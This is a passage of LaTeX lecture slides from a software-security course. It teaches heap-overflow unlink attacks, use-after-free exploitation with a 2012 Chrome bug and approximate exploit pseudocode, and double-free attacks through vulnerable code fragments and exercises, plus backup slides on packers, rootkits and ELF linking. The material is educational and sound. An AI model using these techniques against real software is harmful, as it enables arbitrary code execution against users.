        new_block->size += block_after->size;
        ~2~block_after->prev->next = block_after->next;~end~
        block_after->next->prev = block_after->prev;
    }
    ...
}
\end{lstlisting}
\begin{itemize}
\item<2> \large \myemph<2>{arbitrary memory write}
\end{itemize}
\end{frame}



\subsection{bookkeeping to pointer subterfuge}
\usetikzlibrary{arrows.meta,decorations.pathreplacing,patterns}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{frame}[fragile,label=vulnHeapSmash]{vulnerable code}
\lstset{
    style=small,
    language=C,
    moredelim={**[is][\btHL<4|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<2-3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<6-|handout:0>]{~6~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
char *buffer = malloc(100);
... 
~2~strcpy(buffer, attacker_supplied);~end~
... 
~3~free(buffer);~end~
~6~free(other_thing);~end~
...
\end{lstlisting}
};

\tikzset{xscale=0.9}
\begin{scope}[overlay]
    \draw[stackBox,fill=black!20] (0, 1) rectangle (3, -7);

    \begin{pgfonlayer}{fg}
    \draw[very thick, orange, rounded corners] (0, 1) rectangle (3, -1.5);
    \draw[very thick, orange, rounded corners] (0, -1.5) rectangle (3, -3.5);
    \draw[very thick, orange, rounded corners] (0, -3.5) rectangle (3, -6.5);
    \draw[very thick,-Latex] (3.1, -6.5) -- ++(0, 3) node[sloped,right] {incr. addrs};
    \end{pgfonlayer}

    \draw[onStack] (0, 1) rectangle (3, 0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -0.0) rectangle (3, -0.5) node[midway,font=\small] (freeANext) {next};
    \draw[onStack,fill=white] (0, -0.5) rectangle (3, -1.0) node[midway,font=\small] (freeAPrev) {prev};
    \draw[onStack,fill=white] (0, -1.0) rectangle (3, -1.5) node[midway,font=\small] (freeASize) {size/free};

    \draw[onStack,fill=blue!20] (0, -1.7) rectangle (3, -3.0) node[midway,font=\small,align=center] (freeBAlloc) {alloc'd object};
    \begin{visibleenv}<4->
    \fill[pattern color=red,pattern=north west lines] (0, -0.0) rectangle (3, -3.0);
    \end{visibleenv}
    \draw[onStack,fill=white] (0, -3.0) rectangle (3, -3.5) node[midway,font=\small] (freeBSize) {size/free};

    \draw[onStack] (0, -3.5) rectangle (3, -5.0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -5.0) rectangle (3, -5.5) node[midway,font=\small] (freeCNext) {next};
    \draw[onStack,fill=white] (0, -5.5) rectangle (3, -6.0) node[midway,font=\small] (freeCPrev) {prev};
    \draw[onStack,fill=white] (0, -6.0) rectangle (3, -6.5) node[midway,font=\small] (freeCSize) {size/free};
    
    \draw[-Latex,blue,thick] (freeAPrev) -- ++(1.75cm,0cm) -- ++ (0cm, -1cm) -- ++ (4cm,0cm); %|- (freeCSize);
    \draw[-Latex,blue,thick] (freeCNext) -- ++(2.00cm,0cm) -- ++ (0cm, 1cm) -- ++ (4cm,0cm); % |- (freeASize);
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.25cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeANext) -- ++(1.75cm,0cm) -- ++(0cm,2cm);

    \begin{visibleenv}<4->
        \begin{scope}[xshift=-5cm,yshift=-3cm]
        \tikzset{gotBox/.style={thick,fill=orange!30}}
        \draw[gotBox,alt=<6>{fill=red!10}] (0, -1) rectangle (4, -1.5) node[midway,font=\small] (freeEntry) {GOT entry: free};
        \draw[gotBox] (0, -1.5) rectangle (4, -2) node[midway,font=\small] {GOT entry: malloc };
        \draw[gotBox] (0, -2) rectangle (4, -2.5) node[midway,font=\small] (printfEntry) {GOT entry: printf };
        \draw[gotBox] (0, -2.5) rectangle (4, -3.0) node[midway,font=\small] (gotFopen) {GOT entry: fopen };
        \end{scope}
        \draw[-Latex,red,ultra thick,dashed] (freeAPrev) -- ++(-2cm,0cm) |- ([yshift=-.25cm]printfEntry.east);
        \draw[-Latex,red,ultra thick,dashed] (freeANext) -- ++(-2.5cm,0cm) -- ++(0cm,-2.5cm) -- ++(-.5cm,0cm) node [black,solid,draw,left,align=left,fill=white] (scode) {shellcode/etc.};
    \end{visibleenv}
    \begin{visibleenv}<3>
        \draw[ultra thick,decorate,decoration={brace}] (3.15, 1) -- ++ (0, -2.5) node[midway,right,font=\small,align=left] {to be removed \\ from linked list};
    \end{visibleenv}
    \begin{visibleenv}<2>
        \draw[ultra thick,decorate,decoration={brace}] (3.15, 1) -- ++ (0, -5.5) node[midway,right,font=\small,align=left] {free() tries \\ to merge these};
    \end{visibleenv}
    \begin{visibleenv}<5->
        \begin{scope}[xshift=-5cm,yshift=-3cm]
        \draw[blue,opacity=0.8] (-3, -2) rectangle (0, -2.5) node[midway,font=\small] {prev->size/free};
        \draw[blue,opacity=0.8] (-3, -1.5) rectangle (0, -2) node[midway,font=\small] {prev->prev};
        \draw[blue,opacity=0.8] (-3, -1) rectangle (0, -1.5) node[midway,font=\small] {prev->next};
        \end{scope}
        \draw[-Latex,blue,ultra thick,dotted] (freeEntry.north) -- ++(0cm,.1cm) -| (scode.south);
        \node[draw,very thick] at ([xshift=0cm,yshift=-1.5cm]gotFopen.south west) {
            \lstinline|block_after->prev->next = block_after->next|
        };
    \end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}




% FIXME: exercise, using linked-list heap exploit to write something
\subsection{exericse}
\usetikzlibrary{arrows.meta,matrix,fit}
\begin{frame}[fragile,label=heapSubterExercise]{heap overflow exercise}
\begin{lstlisting}[language=C++,style=script]
void operator delete(void *p) {
    ...
    block_after->prev->next = block_after->next;
    ...
}
...
class MyBuffer : public GenericMyBuffer {
public:
    virtual void store(const char *p) override {
        strcpy(buffer, p);
    }
private:
    char buffer[64];
};
...
    GenericMyBuffer *a = new MyBuffer;
    ...
    a->store(attacker_controlled);
    ...
    delete a;
    ...
\end{lstlisting}
\begin{tikzpicture}[overlay,remember picture]
\coordinate (place) at ([yshift=-1.5cm,xshift=-1cm]current page.north east);
\matrix[tight matrix,nodes={text width=3cm,font=\fontsize{9}{10}\selectfont,thick},thick,anchor=north east,label={north:heap object layout}]  (diag) at (place) {
    |[draw=none,align=center,font=\it]| when free \& |[draw=none,align=center]| when used \\
    |[fill=yellow!10]| size+free (8 B) \& |[fill=yellow!10,alias=arrowSide]| size+free (8 B) \\
    |[fill=blue!10]| next pointer (8 B) \& |[fill=violet!10]| vtable pointer (8 B) \\
    |[fill=blue!10]| prev pointer (8 B) \& |[alias=bufPt1]| ~ \\
    |[alias=unusedPt1]| ~                  \& |[alias=bufPt2]| ~ \\
    |[alias=unusedPt2]| ~                  \& |[alias=bufPt3]| ~ \\
    |[alias=unusedPt3]| ~                  \& |[fill=green!10]| unused space (16 B) \\
    |[alias=unusedPt4]| \& (next size+free)   \\
     (next size+free) \\
};
\draw[very thick,-Latex] ([xshift=.25cm]arrowSide.north east) -- ++(0cm, -1cm);
\node[inner sep=0mm,fill=violet!10,fit=(bufPt1) (bufPt2) (bufPt3),font=\small,draw,thick] {buffer (64B)};
\node[inner sep=0mm,fill=green!10,fit=(unusedPt1) (unusedPt2) (unusedPt3) (unusedPt4),font=\small,draw,thick] {unused space \\ (?? B)};
\begin{visibleenv}<1>
\node[anchor=north west,align=left,draw,very thick,font=\fontsize{12}{13}\selectfont] at ([xshift=-1cm]diag.south west) {
    exercise 1: \\
    to attack this buffer overflow \\
    by overwriting the heap data structures \\
    does it matter if space after \texttt{a} \\
    is already free or not?
};
\end{visibleenv}
\begin{visibleenv}<2>
\node[anchor=north west,align=left,draw,very thick,font=\fontsize{12}{13}\selectfont] at ([xshift=-1cm]diag.south west) {
    exercise 2:
    if \texttt{a} at address 0x10000, \\ 
    and attacker wants to overwrite \\
    value at address 0x20000 with 0x30000, \\
    where should attacker put 0x20000, 0x30000\\
    in \texttt{attacker\_controlled}? \\

};
\end{visibleenv}
\end{tikzpicture}
\end{frame}


\section{alternate malloc designs?}
\begin{frame}{other malloc designs?}
\begin{itemize}
\item there are a lot of different malloc/new implementations
\item often multiple free lists
\item free block list might not be kept with linked list
\vspace{.5cm}
\item some place metadata next to allocations like this
\item some keep it separate
\vspace{.5cm}
\item usually performance determines which is chosen
\end{itemize}
\end{frame}


\section{use-after-free}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{frame}[fragile,label=vulnUAF]{vulnerable code}
\lstset{
    language=C++,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
class Foo {
    ...
};
Foo *the_foo;
the_foo = new Foo;
...
delete the_foo;
...
something_else = new Bar(...);
the_foo->something();
\end{lstlisting}
};
\node[draw,anchor=north west,align=left] at (-3,0) {
    {\tt something\_else} likely where {\tt the\_foo} was
};
\begin{visibleenv}<2>
\draw[stackBox] (0, -2) rectangle (3, -5);
\draw[stackBox] (4, -2) rectangle (7, -5);
\draw[onStack,fill=blue!20] (0, -2) rectangle (3, -3) node[midway,align=center,font=\small] { vtable ptr (Foo) };
\draw[onStack,fill=blue!20] (0, -3) rectangle (3, -5) node[midway,align=center,font=\small] {data for Foo };
\draw[onStack,fill=yellow!20] (4, -2) rectangle (7, -3) node[midway,align=center,font=\small] { vtable ptr (Bar)? \\
                                                                                   other data? };
\draw[onStack,fill=yellow!20] (4, -3) rectangle (7, -5) node[midway,align=center,font=\small] { data for Bar  };
\end{visibleenv}
\end{tikzpicture}
\end{frame}



\subsection{pattern}

\begin{frame}{exploiting use after-free}
\begin{itemize}
\item trigger many ``bogus'' frees; then
\item allocate many things of same size with ``right'' pattern  
    \begin{itemize}
    \item pointers to shellcode?
    \item pointers to pointers to {\tt system()}?
    \item objects with something useful in VTable entry?
    \end{itemize}
\item trigger use-after-free thing
\end{itemize}
\end{frame}



\subsection{exercise}
\begin{frame}[fragile,label=uafExericse]{exercise}
\begin{tikzpicture}
\node[draw,very thick,label={north:vuln. code}] (a) {
\begin{lstlisting}[language=C++,style=script]
std::istream *in =
    new std::ifstream("in.txt");
...
delete in;
...
char *other_buffer =
    new char[strlen(INPUT) + 1];
strcpy(other_buffer, INPUT);
...
char c = in->get();
\end{lstlisting}
};
\node[draw,very thick,label={north:ifstream internals},anchor=north west] (b) at (a.north east) {
\begin{lstlisting}[language=C++,style=script]
class istream {
    ...
    int get() { ... buf->uflow(); ... }
    streambuf *buf;
    ~istream() { delete buf; }
};
class streambuf {
    ...
protected:
    virtual type_for_char uflow() = 0;
        /* called to get next char*/
};
class _File_streambuf : public streambuf { ... }
\end{lstlisting}
};
\end{tikzpicture}
\begin{itemize}
\item attacker goal: change what uflow() call does
\item Q1: {\small assuming same size $\rightarrow$ likely to get same address}, what size for attacker to choose for \texttt{INPUT}?
\item Q2: where in INPUT to place pointer to code to run?
\end{itemize}
\end{frame}


\subsection{example}
\usetikzlibrary{calc,fit,matrix}
\begin{frame}{real UAF exploitable bug}
    \begin{itemize}
        \item 2012 bug in Google Chrome
        \item exploitable via JavaScript
        \item discovered/proof of concept by PinkiePie
        \item allowed arbitrary code execution via VTable manipulation
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=UAFTriggering]{UAF triggering code}
\lstset{
    language=JavaScript,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3-4|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (0, 0) {
\begin{lstlisting}
// in HTML near this JavaScript:
// <video id="vid"> (video player element)
function source_opened() {
  buffer = ms.addSourceBuffer('video/webm; codecs="vorbis,vp8"');
  ~2~vid.parentNode.removeChild(vid);~end~
  gc(); // force garbage collector to run now
  // garbage collector frees unreachable objects
  // (would be run automatically, eventually, too)
  // buffer now internally refers to delete'd player object
  ~3~buffer.timestampOffset = 42;~end~
}
ms = new WebKitMediaSource();
ms.addEventListener('webkitsourceopen', source_opened);
vid.src = window.URL.createObjectURL(ms);
\end{lstlisting}
};
    \begin{visibleenv}<4->
        \node[fill=white,opacity=0.6,fit=(code)] {};
        \node[draw=red,ultra thick,anchor=north east,fill=white,overlay] (cppCode) at (-.25, .125) { 
\lstset{
    language=C++,
    style=smaller,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3-4|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
    moredelim={**[is][\btHL<5|handout:0>]{~5~}{~end~}},
}
\begin{lstlisting}
// implements JavaScript buffer.timestampOffset = 42
void SourceBuffer::setTimestampOffset(...) {
     if (m_source->setTimestampOffset(...))
        ...
}
bool MediaSource::setTimestampOffset(...) {
    // m_player was deleted when video player element deleted
    // but this call does *not* use a VTable
    if (!~4~m_player~end~->sourceSetTimestampOffset(id, offset)) 
        ...
}
bool MediaPlayer::sourceSetTimestampOffset(...) {
    // m_private deleted when MediaPlayer deleted
    // this *is* a VTable-based call
    return ~5~m_private~end~->sourceSetTimestampOffset(id, offset);
}
\end{lstlisting}
    };
    \end{visibleenv}
\end{tikzpicture}
\imagecredit{via \url{https://bugs.chromium.org/p/chromium/issues/detail?id=162835}}
\end{frame}

\begin{frame}[fragile,label=theExploit]{UAF exploit (approx. pseudocode)}
\begin{lstlisting}[language=JavaScript,style=smaller]
... /* use information leaks to find relevant addresses */ 
buffer = ms.addSourceBuffer('video/webm; codecs="vorbis,vp8"');
vid.parentNode.removeChild(vid);
vid = null;
gc();
// allocate object to replace m_private
var array = new Uint32Array(168/4);
// allocate object to replace m_player
// type chosen to keep m_private pointer unchanged
rtc = new webkitRTCPeerConnection({'iceServers': []});
array[0] = ... /* fill in array with chosen values */
// trigger VTable Call that uses chosen address
buffer.timestampOffset = 42;
\end{lstlisting}
\end{frame}

\begin{frame}{type confusion}
    \begin{tikzpicture}
    \matrix[tight matrix,nodes={text width=6.8cm,text depth=.1ex,font=\small\tt},anchor=north west,
            label={north:{\tt MediaPlayer} (deleted but used)}] (PlayerVT) at (0, 0) {
        m\_private {\normalfont (pointer to PlayerImpl)} \\
        m\_timestampOffset {\normalfont (double)} \\
    };
    \matrix[tight matrix,nodes={text width=6.8cm,text depth=.1ex,font=\small\tt},anchor=north west,
            label={north:{\tt webkitRTC\ldots} (replacement)}] (SomethingVT) at (8, 0) {
        (something not changed) \\
        m\_??? {\normalfont (pointer)} \\
        \ldots \\
    };
    \matrix[tight matrix,nodes={text width=6.8cm,text depth=.1ex,font=\small\tt},anchor=north west,
            label={north:{\tt PlayerImpl} (deleted but used)}] (PlayerImplVT) at (0, -2) {
        VTable pointer \\
        \ldots \\
    };
    \matrix[tight matrix,nodes={text width=6.8cm,text depth=.1ex,font=\small\tt},anchor=north west,
            label={north:array of 32-bit ints (replacement)}] (ArrayVT) at (8, -2) {
        array[0], array[1] \\
        array[2], array[3] \\
        \ldots \\
    };
    \end{tikzpicture}
\end{frame}

\begin{frame}{missing pieces: information disclosure}
    \begin{itemize}
        \item need to learn address to set VTable pointer to
            \begin{itemize}
            \item (and other addresses to use)
            \end{itemize}
        \item allocate types other than \texttt{Uint32Array}
        \item rely on confusing between different types, e.g.
    \end{itemize}
    \begin{tikzpicture}
    \matrix[tight matrix,nodes={text width=6.8cm,text depth=.1ex,font=\small\tt},anchor=north west,
            label={north:{\tt MediaPlayer} (deleted but used)}] (PlayerVT) at (0, 0) {
        m\_private {\normalfont (pointer to PlayerImpl)} \\
        m\_timestampOffset {\normalfont (double)} \\
    };
    \matrix[tight matrix,nodes={text width=6.8cm,text depth=.1ex,font=\small\tt},anchor=north west,
            label={north:{\tt Something} (replacement)}] (SomethingVT) at (8, 0) {
        \ldots \\
        m\_buffer {\normalfont (pointer)} \\
    };
    \end{tikzpicture}
    \begin{itemize}
    \item allows reading timestamp value to get a pointer's address
    \end{itemize}
\end{frame}


\subsection{JS and similar interfaces v use-after-free}

\begin{frame}{use-after-free easy cases}
\begin{itemize}
    \item common problem for JavaScript implementations
    \item use-after-free'd object often some complex C++ object
        \begin{itemize}
            \item example: representation of video stream
        \end{itemize}
    \item exploits can \myemph{choose type of object that replaces}
        \begin{itemize}
            \item allocate that kind of object in JS
        \end{itemize}
    \item can often arrange to read/write vtable pointer
        \begin{itemize}
            \item depends on layout of thing created
            \item easy examples: string, array of floating point numbers
        \end{itemize}
\end{itemize}
\end{frame}


\section{double-free}
\usetikzlibrary{arrows.meta,patterns}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}


\begin{frame}[fragile,label=dblFree]{double-frees}
\lstset{
    style=small,
    language=C,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
~2~free(thing);~end~
~3~free(thing);~end~
char *~4~p = malloc(...);~end~
// p points to next/prev
//   on list of avail.
//   blocks
strcpy(p, attacker_controlled);
malloc(...);
char *q = malloc(...);
// q points to attacker-
//   chosen address
strcpy(q, attacker_controlled2);
...
\end{lstlisting}
};

\tikzset{xscale=0.9}
\begin{scope}[overlay]
    \draw[stackBox,fill=black!20] (0, 1) rectangle (3, -7);

    \draw[onStack] (0, 1) rectangle (3, 0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -0.0) rectangle (3, -0.5) node[midway,font=\small] (freeANext) {next};
    \draw[onStack,fill=white] (0, -0.5) rectangle (3, -1.0) node[midway,font=\small] (freeAPrev) {prev};
    \draw[onStack,fill=white] (0, -1.0) rectangle (3, -1.5) node[midway,font=\small] (freeASize) {size};

    \draw[onStack,fill=blue!20] (0, -1.7) rectangle (3, -3.0) node[midway,font=\small,align=center] (freeBAlloc) {alloc'd object};
    \draw[onStack,fill=white] (0, -3.0) rectangle (3, -3.5) node[midway,font=\small] (freeBSize) {size};

    \draw[onStack,fill=yellow!20] (0, -3.5) rectangle (3, -6.0) node[midway,font=\small,align=center,yshift=.5cm] {alloc'd object\\
                \tt thing\only<4->{/p}};
    \begin{visibleenv}<2->
    \draw[onStack,fill=yellow!10,dashed] (0, -5.5) rectangle (3, -6.0) node[midway,font=\small] (freeCPrev) {prev};
    \draw[onStack,fill=yellow!10,dashed] (0, -5.0) rectangle (3, -5.5) node[midway,font=\small] (freeCNext) {next};
    \end{visibleenv}
    \begin{visibleenv}<2>
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.75cm,0cm) node[right] {NULL};
    \draw[-Latex,blue,thick,opacity=0.5] (freeCNext) -- ++(2.25cm,0cm) -- ++(0cm,2cm);
    \draw[Latex-,blue,thick,opacity=0.5] (freeCPrev.west) -- ++(-1cm,0cm) -- ++(0cm,-1cm) node[below,font=\small] {list head};
    \end{visibleenv}
    \begin{visibleenv}<3->
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.75cm,0cm) node[right] {NULL};
    \draw[-Latex,blue,thick,opacity=0.5] (freeCNext) -- ++(2.25cm,0cm) -- ++(0cm,.35cm) -- ++(-4cm,0cm) |- (freeCPrev.west);
    \draw[Latex-,blue,thick,opacity=0.5] (freeCPrev.west) -- ++(-1cm,0cm) -- ++(0cm,-1cm) node[below,font=\small] {list head};
    \end{visibleenv}
    \draw[onStack,fill=white] (0, -6.0) rectangle (3, -6.5) node[midway,font=\small] (freeCSize) {size};
    
    \draw[-Latex,blue,thick,opacity=0.5] (freeAPrev) -- ++(1.75cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeANext) -- ++(2.25cm,0cm) -- ++(0cm,2cm);
\end{scope}
    \begin{visibleenv}<4>
        \node[draw=red, ultra thick, anchor=east,align=left,fill=white] at (-.5, -4) {
            malloc returns something \myemph{still on free list} \\
            because double-free made \myemph{loop} in linked list
        };
    \end{visibleenv}
\end{tikzpicture}
\end{frame}


% FIXME: as pictures
\begin{frame}[fragile,label=dblFreeExpand]{double-free expansion}
\lstset{
    style=smaller,
    language=C,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    moredelim={**[is][\btHL<3|handout:0>]{~3~}{~end~}},
    moredelim={**[is][\btHL<4|handout:0>]{~4~}{~end~}},
    moredelim={**[is][\btHL<5|handout:0>]{~5~}{~end~}},
    moredelim={**[is][\btHL<6|handout:0>]{~6~}{~end~}},
}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
// free/delete 1:
~2~double_freed->next = first_free;~end~
~2~first_free = chunk;~end~
// free/delete 2:
~3~double_freed->next = first_free;~end~
~3~first_free = chunk~end~
// malloc/new 1:
~4~result1 = first_free;~end~
~4~first_free = first_free->next;~end~
// + overwrite:
~4~strcpy(result1, ...);~end~
// malloc/new 2:
~5~first_free = first_free->next;~end~
// malloc/new 3: 
result3 = first_free;
strcpy(result3, ...);
\end{lstlisting}
};
\draw[stackBox] (0,0) rectangle (5, -2);
\draw[onStack,fill=blue!20] (0,0) rectangle (5, -1) node[midway,font=\small] {next / double free'd object};
\draw[onStack] (0,-1) rectangle (5, -2) node[midway,font=\small] {size};
\draw[stackBox] (0, -4) rectangle (5, -5) node[midway,font=\small,align=center] {first\_free \\ (global)};
\draw[stackBox,dashed] (0.5, -2.5) rectangle (5.5, -3.5) node[midway,font=\small,align=center] {(original first free)};

\begin{visibleenv}<1>
\draw[-Latex,blue,thick] (0, -4.5) -- ++(-0.5cm,0cm) |- (0.5, -3);
\end{visibleenv}
\begin{visibleenv}<2-4>
\draw[-Latex,blue,thick] (0, -4.5) -- ++(-0.5cm,0cm) |- (0, -1.5);
\end{visibleenv}
\begin{visibleenv}<2>
\draw[-Latex,blue,thick] (5, -0.5) -- ++(1.5cm,0cm) |- (5.5, -3);
\end{visibleenv}

\begin{visibleenv}<3->
\draw[-Latex,blue,thick] (5, -0.5) -- ++(0.5cm,0cm) |- (5, -1.5);
\end{visibleenv}

\begin{visibleenv}<4->
\fill[pattern=north west lines,pattern color=red] (0, 0) rectangle (5, -1);
\draw[red,dashed,ultra thick,-Latex] (5,-0.5) -- ++(1cm, 0cm) |- (3, -5.5);
\draw[stackBox,fill=orange!30] (0, -5.25) rectangle (3, -6.25) node[midway,font=\small] {GOT entry: free};
\end{visibleenv}
\begin{visibleenv}<4->
\node[overlay,text=black,draw=red!80,thick,font=\small\tt,anchor=south] at (3, 0) { first/second malloc };
\end{visibleenv}

\begin{visibleenv}<5->
\draw[-Latex,blue,thick] (0, -4.5) -- ++(-1cm, 0cm) |- (0, -5.75);
\node[text=black,draw=red!80,thick,font=\small\tt,anchor=north west] at (3, -6) { third malloc };
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}{double-free notes}
    \begin{itemize}
    \item this attack has apparently not been possible for a while
    \item most malloc/new's \myemph{check for double-frees} explicitly
        \begin{itemize}
        \item (e.g., look for a bit in {\tt size} data)
        \end{itemize}
    \item prevents this issue --- also catches programmer errors
    \item pretty cheap
    \end{itemize}
\end{frame}


% FIXME: exercise, double-free usage?
\subsection{exercise}
\begin{frame}[fragile,label=doubleFreeExer]{double-free exercise}
\begin{lstlisting}[language=C++,style=script]
free(...) {
    freed->next = first_free
    first_free = freed;
}
malloc(...) {
    if (can use first free) {
        void *to_return = first_free;
        first_free = first_free->next;
        return to_return;
    }
}
vulnerable() {
    char *p = malloc(100);
    free(p);
    free(p);
    char *q = malloc(100);
    char *r = malloc(100);
    strlcpy(q, attacker_input1, 100);
    char *s = malloc(100);
    strlcpy(r, attacker_input2, 100);
    strlcpy(s, attacker_input3, 100);
}
\end{lstlisting}
Exericse: which input should contain address to overwrite? \\
which input should contain value to put in that address?
\end{frame}




\section{backup slides}
\begin{frame}{backup slides}
\end{frame}

\subsection{heuristics to find packers}

\begin{frame}<1>[label=findingPackers]{handling packers}
    \begin{itemize}
    \item easiest way to decrypt self-decrypting code --- run it!
    \item solution: \myemph<1>{virtual machine/emulator/debugger} in antivirus software
    \end{itemize}
\end{frame}

\begin{frame}{handling packers with debugger/emulator/VM}
    \begin{itemize}
    \item run program in debugger/emulator/VM for a while
        \begin{itemize}
        \item one heuristic: until it jumps to written data
        \end{itemize}
    \item example implementation: unipacker (\texttt{https://github.com/unipacker/unipacker})
    \vspace{.5cm}
    \item then scan memory for decrypted machine code
    \item or obtain trace of instructions run
    \vspace{.5cm}
    \end{itemize}
\end{frame}

\begin{frame}{unneeded steps}
    \begin{itemize}
    \item understanding the ``encryption'' algorithm
        \begin{itemize}
        \item more complex encryption algorithm won't help
        \end{itemize}
    \item extracting the key and encrypted data
        \begin{itemize}
        \item making key less obvious won't help
        \end{itemize}
    \end{itemize}
\end{frame}


\begin{frame}[fragile,label=instrTraces1]{using instruction traces (1)}
\begin{itemize}
\item instruction traces are huge\ldots
\end{itemize}
\begin{lstlisting}
0x10: add %rax, %rbx
0x12: mov 0x140(%rbx), %rsi
0x14: mov %rsi, 0x150(%rbx)
0x16: jle 0x10
0x10: add %rax, %rbx        /* duplicate of before */
0x12: mov 0x140(%rbx), %rsi
0x14: mov %rsi, 0x150(%rbx)
0x16: jle 0x10
0x18: mov $10, %rcx
...
\end{lstlisting}
\begin{itemize}
\item but can simplify: e.g. remove duplicates (loops)
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=instrTraces2]{using instruction traces (2)}
\begin{itemize}
\item elegant way to analyze `tricky' techniques
\item self-modifying code:
\end{itemize}
\begin{lstlisting}
    0x10: add %rax, %rbx
    0x12: mov 0x140, %rax
    0x14: mov %rsp, 0x0C
        /* modifies code we will execute */
    0x16: jle 0x10
    0x10: sub %rcx, %rdx
    0x12: ...
\end{lstlisting}
\begin{itemize}
\item multiple layers of `decrypters'/code generation
\item \ldots
\end{itemize}
\end{frame}



\subsection{rootkits and chkrootkit}
\begin{frame}{rootkits}
    \begin{itemize}
    \item rootkit --- priviliged malware that hides itself
    \item same ideas as these anti-anti-virus techniques
    \end{itemize}
\end{frame}

\begin{frame}{chkrootkit}
    \begin{itemize}
    \item \texttt{chkrootkit} --- Unix program that looks for rootkit signs
    \vspace{.5cm}
    \item tell-tale strings in system programs
        \begin{itemize}
        \item e.g. file, process, network connection listing programs changed
        \end{itemize}
    \item disagreement between process list, other ways of detecting processes
    \item disagreement between file lists, other ways of counting files
    \item overwritten entries in system login records
    \item known suspicious filenames
        \begin{itemize}
        \item hidden exes in temporary, data directories, etc.
        \end{itemize}
    \end{itemize}
\end{frame}


\subsection{aside: disinfection}

\begin{frame}{after scanning --- disinfection}
    \begin{itemize}
    \item antivirus software wants to \myemph{repair}
    \item requires specialized scanning
        \begin{itemize}
        \item no room for errors
        \item need to identify \myemph{all}
        \item need to find relocated bits of code
        \end{itemize}
    \end{itemize}
\end{frame}
 % FIXME: clamav example?

\subsection{signatures and extracting encryptd code?}
\begin{frame}{encrypted viruses: no signature?}
    \begin{itemize}
    \item {\tt decrypt} is a pretty good signature
    \item still need to a way to disguise that code
    \vspace{.5cm}
    \item how about analysis? how does one analyze this?
    \end{itemize}
\end{frame}

\begin{frame}{encrypted virus: getting the code?}
    \begin{itemize}
    \item ``encrypted'' body 
    \item just running objdump not enough\ldots
    \item instead --- run debugger, set \myemph{breakpoint} after ``decryption''
    \item \myemph{dump decrypted memory} afterwords
    \vspace{.5cm}
    \item observation: can even automate this:
        \begin{itemize}
        \item run program in emulator
        \item have emulator look for jump to previously written code
        \item (or jump after certain point, etc.)
        \item example implementation: unipacker (\texttt{https://github.com/unipacker/unipacker})
        \end{itemize}
    \end{itemize}
\end{frame}




\section{backup slides}
\begin{frame}{backup slides}
\end{frame}


\subsection{needed info encoding}

\providecommand{\myemphA}[1]{\myemph<1>{#1}}
\providecommand{\myemphB}[1]{\myemph<2>{#1}}
\providecommand{\myemphAB}[1]{\myemph<1-2>{#1}}
\providecommand{\myemphC}[1]{\myemph<3>{#1}}
\begin{frame}[fragile,label=dynLinkNeeded2]{dynamic linking: what to load? (2)}
\begin{itemize}
\item excerpt from {\tt objdump -sx hello.exe}:
\end{itemize}
\begin{Verbatim}[commandchars=@\{\},fontsize=\fontsize{9}{10}\selectfont]
Program Header:
@textit{...}
 DYNAMIC off    0x0000000000002e20 vaddr @myemph{0x0000000000403e20} paddr 0x0000000000403e20 align 2**3
         filesz 0x00000000000001d0 memsz 0x00000000000001d0 flags rw-
@textit{...}
Dynamic Section:
  @myemphAB{NEEDED               libc.so.6}
  @myemphC{INIT                 0x0000000000401000}
  ...
  @myemphB{STRTAB}               0x0000000000400420
  ...
@textit{...}
 @myemphAB{403e20} @myemphA{01000000 00000000} @myemphB{01000000 00000000}  ................
 403e30 @myemphC{0c000000 00000000 00104000 00000000}  ..........@.....
\end{Verbatim}
\hrule
type \myemphA{0x1 = ``DT\_NEEDED''} (from ELF manual)\\
value \myemphB{0x1 = string table entry 1} \\
\hrule
type \myemphC{0xC = ``DT\_INIT''} \\
value \myemphC{0x401000} \\
\end{frame}



\subsection{static symbol/relocation tables}
\begin{frame}[fragile,label=linkingExAsm]{hello.s}
\begin{lstlisting}
.data
string: .asciz "Hello, World!"
.text
.globl main
main:
    movq $string, %rdi
    call puts
    ret
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=linkingExObjRepeat]{hello.o (pre-static or dynamic linking)}
